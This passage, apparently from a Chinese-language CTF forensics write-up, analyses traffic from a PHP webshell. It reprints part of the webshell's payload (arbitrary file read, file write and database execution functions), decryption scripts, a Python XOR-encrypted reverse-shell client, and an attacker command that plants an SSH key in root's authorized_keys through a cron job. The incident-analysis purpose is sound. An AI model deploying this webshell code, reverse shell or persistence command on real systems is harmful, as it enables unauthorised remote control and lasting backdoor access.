    }elseif ($dbType=="oracle"&&(function_existsEx("oci_connect")||function_existsEx("ora_plogon"))){
        if (function_existsEx("oci_connect")){
            return oci_exec($dbHost,$dbPort,$username,$password,$execType,$currentDb,$execSql,$charset);
        }else if (function_existsEx("ora_plogon")){
            return oci_exec($dbHost,$dbPort,$username,$password,$execType,$currentDb,$execSql,$charset);
        }
    }elseif ($dbType=="sqlite"&&class_exists("SQLite3")){
        return sqlite_exec($dbHost,$dbPort,$username,$password,$execType,$currentDb,$execSql,$charset);
    }

    if (extension_loaded("pdo")){
        return pdoExec($dbType,$dbHost,$dbPort,$username,$password,$execType,$currentDb,$execSql);
    }else{
        return "no extension";
    }

}
function base64Encode($data){
    return base64_encode($data);
}
function test(){
    return "ok";
}
function get($key){
    global $parameters;
    if (isset($parameters[$key])){
        return $parameters[$key];
    }else{
        return null;
    }
}
function getAllParameters(){
    global $parameters;
    return $parameters;
}
function includeCode(){
    $classCode=get("binCode");
    $codeName=get("codeName");
    $_SES=&getSession();
    $_SES[$codeName]=$classCode;
    return "ok";
}
function base64Decode($string){
    return base64_decode($string);
}
function convertFilePermissions($fileAttr){
    $mod=0;
    if (strpos($fileAttr,'R')!==false){
        $mod=$mod+0444;
    }
    if (strpos($fileAttr,'W')!==false){
        $mod=$mod+0222;
    }
    if (strpos($fileAttr,'X')!==false){
        $mod=$mod+0111;
    }
    return $mod;
}
function g_close(){
    @session_start();
    $_SES=&getSession();
    $_SES=null;
    if (@session_destroy()){
        return "ok";
    }else{
        return "fail!";
    }
}

function bigFileDownload(){
    $mode=get("mode");
    $fileName=get("fileName");
    $readByteNum=get("readByteNum");
    $position=get("position");
    if ($mode=="fileSize"){
        return @filesize($fileName)."";
    }elseif ($mode=="read"){
        if (function_existsEx("fopen")&&function_existsEx("fread")&&function_existsEx("fseek")){
            $handle=fopen($fileName,"rb");
            if ($handle!==false){
                @fseek($handle,$position);
                $data=fread($handle,$readByteNum);
                @fclose($handle);
                if ($data!==false){
                    return $data;
                }else{
                    return "cannot read file";
                }
            }else{
                return "cannot open file";
            }
        }else if (function_existsEx("file_get_contents")){
            return file_get_contents($fileName,false,null,$position,$readByteNum);
        }else{
            return "no function";
        }

    }else{
        return "no mode";
    }
}

function bigFileUpload(){
    $fileName=get("fileName");
    $fileContents=get("fileContents");
    $position=get("position");
    if(function_existsEx("fopen")&&function_existsEx("fwrite")&&function_existsEx("fseek")){
        $handle=fopen($fileName,"ab");
        if ($handle!==false){
            fseek($handle,$position);
            $len=fwrite($handle,$fileContents);
            @fclose($handle);
            if ($len!==false){
                return "ok";
            }else{
                return "cannot write file";
            }
        }else{
            return "cannot open file";
        }
    }else if (function_existsEx("file_put_contents")){
        if (file_put_contents($fileName,$fileContents,FILE_APPEND)!==false){
            return "ok";
        }else{
            return "writer fail";
        }
    }else{
        return "no function";
    }
}
function canCallGzipEncode(){
    if (function_existsEx("gzencode")){
        return "1";
    }else{
        return "0";
    }
}
function canCallGzipDecode(){
    if (function_existsEx("gzdecode")){
        return "1";
    }else{
        return "0";
    }
}
function bytesToInteger($bytes, $position) {
    $val = 0;
    $val = $bytes[$position + 3] & 0xff;
    $val <<= 8;
    $val |= $bytes[$position + 2] & 0xff;
    $val <<= 8;
    $val |= $bytes[$position + 1] & 0xff;
    $val <<= 8;
    $val |= $bytes[$position] & 0xff;
    return $val;
}
function isGzipStream($bin){
    if (strlen($bin)>=2){
        $bin=substr($bin,0,2);
        $strInfo = @unpack("C2chars", $bin);
        $typeCode = intval($strInfo['chars1'].$strInfo['chars2']);
        switch ($typeCode) {
            case 31139:
                return true;
            default:
                return false;
        }
    }else{
        return false;
    }
}
function getBytes($string) {
    $bytes = array();
    for($i = 0; $i < strlen($string); $i++){
        array_push($bytes,ord($string[$i]));
    }
    return $bytes;
}
```



继续分析代码，在第一次初始化的时候，并没有一个`$_SESSION[$payloadName]`，于是进入else分支，设置了相应的值

```
reskey=0433434e8d50be95
payloadkey=613001260d94ebd0
```

并把`$_SESSION[$payloadName]`设置为大马通过613001260d94ebd0进行base64后的值

因为设置了相应的session，所以在返回包中拿到了session



将cookie放入header中，我们继续模拟后续的发包



可以看到，在后续与服务器交互的过程，是通过`$_SESSION['payloadkey']`来解密`$_SESSION[$payloadName]`得到大马的源码，然后通过eval执行，接下来去调用其中的run方法

所以这里的aes密钥应该为payloadkey的值即613001260d94ebd0

# **攻击者读取了/tmp/secret,内容是什么,提交flag{文件内容}**

这里我们将大马保存下来，为了方便调试，将`eval($payload)`用include这个大马文件替代，这样就能跟进其中的run方法



在大马中，我们看到了run方法接受的参数，然后会进入一个formatParamter这个来格式化这个参数



然后再通过evalFunc去调用对应的函数，接下来就是需要长时间的犁地了




最后在tcp.stream eq 800这个数据包中找到了读取/tmp/secret的指令



然后接下来就是要解密返回的结果了

```
ed3d2c21f7122b5f419455d7c26fafd96563028cfe9dcc9dc4866a2e950ae4e91d37dc581e991e3bef5e069713af9fa6ca
```



可以看到最后的执行结果是3个结果的拼接

`$p1`是截取的`$reslen`的最后一位，一位是数字，它的范围就在0-9，然后前后是有规律的，一共的可能性就是10种，然后就可以根据run函数的返回构造脚本



```
比如说末尾为5，那么打印的内容就是: 截取md5(返回长度+32)前五位+返回内容+截取md5(返回长度+32)的32-5位
因为返回字符串的长度知道，所以可以爆破得到内容

构造脚本的思路就应该是从0-9，截取去掉前x位和后面32-x位，得到的就是run函数的返回值
根据run函数的返回加密思路，先gzencode，再rc444，再bin2hex，所以反过来就应该是hex2bin，再rc444，再gzdecode，rc444的密钥就是$_SESSION['reskey']即0433434e8d50be95，所以脚本如下

<?php
include "123.php";
function extractMiddleString($str, $n) {
    $length = strlen($str);
    $start = substr($str, 0, $n);
    $end = substr($str, $length - (32 - $n));
    $middle = substr($str, $n, $length - $n - (32 - $n));
    
    return $middle;
}

$inputString = "ed3d2c21f7122b5f419455d7c26fafd96563028cfe9dcc9dc4866a2e950ae4e91d37dc581e991e3bef5e069713af9fa6ca";

for ($n = 0; $n <= 9; $n++) {
    $middleString = extractMiddleString($inputString, $n);
    echo "解密：".gzdecode(rc4444(hex2bin($middleString),"0433434e8d50be95"));
    // echo "n = $n: $middleString\n";
}

```



最后得到了对应的值1cbbd56e9aa1

# **攻击者执行了系统命令并进行了反弹shell操作,请提交反弹shell的IP及端口,flag{IP:端口}**



在最后一个http数据包中看到了外连的IP和端口，并且从整个数据包来看，后面也是与这个IP进行的连接



# 攻击者获得反弹shell后将权限提升至root,并在系统中添加了一个拥有root权限的用户,同时在系统中做了简单的权限维持,提交该用户的用户名和攻击者的ssh公钥md5值flag{用户名 ssh公钥md5值

上一个题目运行了一个python文件，一看就是通过命令直接写进去的，所以往前找，找到了写入的python文件

在tcp.stream eq 805这个包中





```
import socket
import subprocess
import sys

client_socket = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
client_socket.connect((sys.argv[1], int(sys.argv[2])))

def encode(data):
    res = ""
    k = "1112223334445556".encode()
    for i in range(len(data)):
        res += chr(data[i] ^ k[i % 15])
    return res

while True:
    command = encode(client_socket.recv(102400))
    result = subprocess.getoutput(command)
    client_socket.send(encode(result.encode()).encode())
    if command == 'exit':
        break

client_socket.close()
```

可以看到就是一个socket的加密通信，最后跟踪这个socket的tcp流



我们对后续的socket包根据逻辑解密（一块一块地解密）

```
import socket
import binascii

def encode(data):
    res = ""
    k = "1112223334445556".encode()
    for i in range(len(data)):
        res += chr(data[i] ^ k[i % 15])
    return res

print(encode("abda".encode()))

def decode(hex_string):
    data = bytes.fromhex(hex_string)
    print(data)
    res = ""
    k = "1112223334445556".encode()
    for i in range (len(data)):
        res += chr(data[i] ^ k[i % 15])
    print(res)
    return res

decode("4244555d121f40135155475c151856111354515a5d1369647a5b564c745b52027f5d7e6a79496a67767664607373605b7c7d575e7577796c585f785e6773606774706176756665617f7764647772680374776902654662627f6c7f776b71655e5f5a615f53006373597b657770667f65620055670d645170684b527746636101034e66715a43575809477d6a605f69587e0251594572524b564861595f7e7e7344446605457363655a4453584b58625f44716670495e7f6a427967645b6263637f667901044567745a6a6575765550615e4f534b6b6b6865620361707a7d6272456b605c685861595b6b7a067e4f6061557e5500565b50655b047904597e57764507685f60607e64500157050442655a557a7c75025b5263720557597f49634b60427949575b677343016c6204746b5f06447e5e7d63676c594566777f026674607f7e597e676605054755676375667675706a61055c606d5d736401640261775f5c6706586f57047f4b62004a03515e4b5f51735d787b5c4565577a5e477d5f584e7b735a077e65555e6567617d7e06405d7b616f7b62035e795103576578046543667d737e7f6a6078600269006761417751015950617a705e605d5c445760644d6300600066650b067f057e43617d517c655f684b6b655001790666075073594b63645d02525d79656d5e594f6401674868647f0157665b435061596065746b7979025b706a6c7d466f585964666774707f740203576c440578055505507a7700656675047a590473785c677f615903747d67627c57626f59625c014551587d416a60724d5606736154675a706176754779044473664f73647c015d07525d6142516c6f42635b5960615c63015074407b605f59007f744106516a540167630d707b607f777f4b5a4b5058066062735c5c5072495962005a026758067a7804054c66025d7356667c66525d50655062007366695d7b53710a427d044067576d6375675d60616801404b7a5f017667596744534860585267764e5659597a62655579645e566466037a7365580c6d7c756766575e7d7a697300077b61520878797844500061725663720151627b00535c60037f6b6944575a67046c66464550657459527458416e66565261587044515f0a4557770c4156067b5e7d03740356745b45575958036f6263575000640750445c091448575446540705121f56130d131b4059451a415442451c415a1315151451575d5a15160201121812191319141e14465d151e455c421d465640471a475c12150b111e4753401d40435c5b581b56475a5f1e435d5d460856505c5b145a5e17")
```



```
sudo -s bash -c "echo ZWNobyAnc3NoLXJzYSBBQUFBQjNOemFDMXljMkVBQUFBREFRQUJBQUFCZ1FDZ1QrVWJYNFZCWlliRkg4VFlJTFBTMVQ3aS9QdEYzcEtQR20zREovbi8vOXRlZkJ6elpGczgzSklMMGppS0pBRThvakxkVkpDSExoNXpKTWhVWWJSL05tUFhYVFBadTkzbzZYZWQ0RDNIWGpZQmZjSjhXN2JzUTdOd2dicVh0M0lKbGt6ZmRSMWd5c01wTkdHNG1haWF1blJxRzRpKzdhSGw4YW5EZm4vMmNWSXlpSFN3TFRLMjJSR00rdVRGTDFCYU1hUXhBU0V0SDloS2lZb1NzS2x1bmxkeGhMNmtTeHltNllzOFo2OTdlWURNM2tiNTZJS2lKc0dVL0QvSHBONXRJS1Z4SUtBd0haSHBmSnhpcUQxR1Q2TW85L1JwTHdMTnZyYVc2M2R2eFhzRVo0anJQYjlzQ0VyZVM2dUowdTlUTEZKK0hCYXIrZmlUWVFBMG10cXp0M0d4aHE2VUF0Nm1FMmVNSk1GNTVHcWZlSm0wcjNrYTFyc3FPeVhBSEFtM0pFSzBUM3o5anRveXZwVjhQSnQ2cGtOTjl5NEp4cXg2TW9DNUJFNzhybk5SVGhieGxhS2h0Tk5NL00yS3lBdTNUandQdW5FWXlIaC9qN0tSbXVDVlRSZ2sxNk5CRlVubzRjaTEzbmlOWTdHVldWU0NGQm9XMDVTelNIZG43NTg9IHJvb3RAbWF4dWJ1bnR1LXZpcnR1YWwtbWFjaGluZScgPiAvcm9vdC8uc3NoL2F1dGhvcml6ZWRfa2V5cwo= |base64 -d > /tmp/test.sh && echo '30 * * * * sh /tmp/test.sh' > /var/spool/cron/root;echo ok"
```

将这段base64解码



看到整个命令其实就是写一个计划任务然后来写入一个authorized_keys，最后ssh的公钥如下

```
ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQCgT+UbX4VBZYbFH8TYILPS1T7i/PtF3pKPGm3DJ/n//9tefBzzZFs83JIL0jiKJAE8ojLdVJCHLh5zJMhUYbR/NmPXXTPZu93o6Xed4D3HXjYBfcJ8W7bsQ7NwgbqXt3IJlkzfdR1gysMpNGG4maiaunRqG4i+7aHl8anDfn/2cVIyiHSwLTK22RGM+uTFL1BaMaQxASEtH9hKiYoSsKlunldxhL6kSxym6Ys8Z697eYDM3kb56IKiJsGU/D/HpN5tIKVxIKAwHZHpfJxiqD1GT6Mo9/RpLwLNvraW63dvxXsEZ4jrPb9sCEreS6uJ0u9TLFJ+HBar+fiTYQA0mtqzt3Gxhq6UAt6mE2eMJMF55GqfeJm0r3ka1rsqOyXAHAm3JEK0T3z9jtoyvpV8PJt6pkNN9y4Jxqx6MoC5BE78rnNRThbxlaKhtNNM/M2KyAu3TjwPunEYyHh/j7KRmuCVTRgk16NBFUno4ci13niNY7GVWVSCFBoW05SzSHdn758= root@maxubuntu-virtual-machine
```

